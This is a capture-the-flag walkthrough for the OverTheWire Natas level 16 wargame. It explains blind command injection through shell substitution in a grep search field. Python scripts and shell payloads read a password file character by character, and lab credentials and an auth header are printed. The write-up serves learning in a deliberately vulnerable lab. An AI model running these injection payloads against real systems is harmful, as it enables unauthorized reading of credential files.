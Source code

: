 # Level 15 → Level 16

## Details
Username: `natas16`<br />
Password: `TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V`<br />
URL:      http://natas16.natas.labs.overthewire.org

## Solution
This was one of the challenges that took me the longest. I will spare you all the attempts and only explain the solution.

<img src="./0.png"></img>

<img src="./1.png"></img>

Since I couldn't "break" the quotes, I started running bash code inside them. The main idea behind it is to deduce each time one character in the password according to the output of grep on dictionary.txt. (Similar to the blind sql injection of the previous challenge).

The following code, `$(cut -c 1-1 /etc/natas_webpass/natas17)` extracts the first character in the password. Then the php code will append this character to grep on the dictionay.txt file. Therefore, out of all the words that will appear in the output, the character that will appear in all of them is actually the character that was extracted from the password.

For example: 
<img src="./2.png"></img>

<img src="./3.png"></img>

So, the first char for password of **natas17** is 'x' or 'X'. It is not possible to tell from this output whether it is an uppercase or lowercase letter, because of `grep -i`.

Let's see an example of a password we already know, of the current stage. The first letter in it is 'T'. We will insert the string `$(cut -c 1-1 /etc/natas_webpass/natas16)` in the input and get the following output:

<img src="./4.png"></img>

And so in the meantime we can recognize letters of the password, without knowing if they are uppercase or lowercase. But what about digits? Let's try to see what happens when we exstract a character that is a digit. The fourth character in the password that we already know is the digit '7'. Let's see what the output is when we try to extract this character with the input `$(cut -c 4-4 /etc/natas_webpass/natas16)`:

<img src="./5.png"></img>

Nothing. This means that currently, only letters can be detected in case insensitive form. And it is still not possible to discover digits. We will now build a Python code that extracts all the characters that are letters, and print them in lower case (for convenience).

```python
from requests import post
from requests.utils import quote

PASSWORD_FILENAME = '/etc/natas_webpass/natas17'
PASSWORD_LENGTH = 32
CASE_INSENSITIVE_LETTER_EXTRACTION = "$(cut -c {}-{} {})"

# details for the POST HTTP request.
URL = "http://natas16.natas.labs.overthewire.org/index.php"
HEADERS ={}
HEADERS["Authorization"] = "Basic bmF0YXMxNjpUUkQ3aVpyZDVnQVRqajlQa1BFdWFPbGZFakhxajMyVg=="
HEADERS["Content-Type"] = "application/x-www-form-urlencoded"
DATA = "needle="

def get_dictionary_words(html):
    """
    Returns a list of all the words that appeared as output
    from dictionary.txt in the html page
    """
    html = html.lower()
    return html[html.find('<pre>')+6:html.find('</pre>')].split('\n')[:-1]

def get_common_letter(words_list):
    """
    Gets a list of words and returns the letter that appeared in all the words.
    """

    # If the list is empty, it is a sign that a digit has been extracted.
    if not words_list: return '_'
    
    # Takes the shortest word, because then the test will be faster.
    words_list.sort(key=len)
    shortes_word = words_list[0]
    
    # If the short word contains one letter, then it is common to all.
    if(len(shortes_word) == 1): return shortes_word
    
    # Looking for the letter that appears in all the words:
    for letter in shortes_word:
        is_common = True  
        
        for word in words_list:
            if letter not in word:
                is_common = False
                break

        if is_common: return letter

password = ""
for i in range(1, PASSWORD_LENGTH+1):
    res = post(url=URL, headers=HEADERS, data=DATA+quote(CASE_INSENSITIVE_LETTER_EXTRACTION.format(i,i,PASSWORD_FILENAME)))
    password += get_common_letter(get_dictionary_words(res.text))
    print("password: " + password.ljust(32, "_"))
```

Take the code above and copy it into a Python file. Run it, and you will get the following output:

<img src="./6.png"></img>

So these are the characters of the password in case insensitive form, where each underscore represents a place of a digit: `xkeuche_sbnkbvh_ru_ksib_uulmi_sd`

# exstract spesific letter from password
`$(cut -c 1-1 /etc/natas_webpass/natas17)`


# convert numbers to chars
`$(printf \\$(printf %03o $((97+$(cut -c 8-8 /etc/natas_webpass/natas17)))))`

# convert char to 'a' just if it was lower case

`$(python3 -c $(echo print\(chr\(97+\(100-ord\($(echo $(python3 -c print\(chr\(34\)\)))$(cut -c 3-3
 b.sh)$(echo $(python3 -c print\(chr\(34\)\)))\)\)\)\)))`

 `$(python3 -c $(echo print\(chr\(97+\(105-ord\($(echo $(python3 -c print\(chr\(34\)\)))$(cut -c 5-5
 /etc/natas_webpass/natas16)$(echo $(python3 -c print\(chr\(34\)\)))\)\)\)\)))`

https://stackoverflow.com/questions/12855610/shell-script-is-there-any-way-converting-number-to-char


and then extract just one letter!
and do it like "blind sql injection"


```python
from requests import post
from requests.utils import quote

PASSWORD_FILENAME = '/etc/natas_webpass/natas17'
PASSWORD_LENGTH = 32
CHAR_EXTRACTION = "$(cut -c {}-{} {})"
DIGIT_EXTRACTION = "$(printf \\\$(printf %03o $((97+$(cut -c {}-{} {})))))"
DETECT_LOWER_CASE = "$(python3 -c $(echo print\(chr\(97+\({}-ord\($(echo $(python3 -c print\(chr\(34\)\)))$(cut -c {}-{} {})$(echo $(python3 -c print\(chr\(34\)\)))\)\)\)\)))"


URL = "http://natas16.natas.labs.overthewire.org/index.php"
HEADERS ={}
HEADERS["Authorization"] =\
"Basic bmF0YXMxNjpUUkQ3aVpyZDVnQVRqajlQa1BFdWFPbGZFakhxajMyVg=="
HEADERS["Content-Type"] = "application/x-www-form-urlencoded"
DATA = "needle="

def get_dictionary_words(html):
    # This is not what prevents distinction between upper and lowercase letters.
    # but done for convenience.
    html = html.lower()
    return html[html.find('<pre>')+6:html.find('</pre>')].split('\n')
    
def get_common_letter(words_list):
    # remove the last 'word' that equals always to ''
    #words_list = words_list[:-1]
    
    # it's no words so digit here.
    if not words_list: return '_'
    
    # take the shortest word in the list
    words_list.sort(key=len)
    shortes_word = words_list[0]
    
    # if there is word with one character, so this is the common letter.
    if(len(shortes_word) == 1): return shortes_word
    
    # find the letter that apear in every word.
    for letter in shortes_word:
        is_common = True
        
        for word in words_list:
            if letter not in word:
                is_common = False
                break
        
        if is_common: return letter

password = ""

print("FIND CASE-INSENSITIVE LETTERS:") 
for i in range(1, PASSWORD_LENGTH+1):
    response = post(url=URL, headers=HEADERS, data=DATA+quote(CHAR_EXTRACTION.format(i,i,PASSWORD_FILENAME)))
    password += get_common_letter(get_dictionary_words(response.text))
    print("password: " + password.ljust(32, "_"))
    
if '_' in password:
    print("\nFIND DIGITS:") 
    while('_' in password):
        i = password.find('_') + 1
        response = post(url=URL, headers=HEADERS, data=DATA+quote(DIGIT_EXTRACTION.format(i,i,PASSWORD_FILENAME)))
        letter = get_common_letter(get_dictionary_words(response.text))
        digit = str(ord(letter) - ord('a'))
        password = password.replace('_', digit, 1)
        print("password: " + password.ljust(32, "_"))
        
print("\nDETECT UPPER CASE LETTER:")
for i in range(PASSWORD_LENGTH):
    if password[i].isalnum():
        response = post(url=URL, headers=HEADERS, data=DATA+quote(DETECT_LOWER_CASE.format(ord(password[i]),i+1,i+1,PASSWORD_FILENAME)))
        letter = get_common_letter(get_dictionary_words(response.text))
        if letter != 'a':
            password = password[:i] + password[i].upper() + password[i+1:]
            print("password: " + password.ljust(32, "_"))
```

## Password for the next level:
```
XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd
```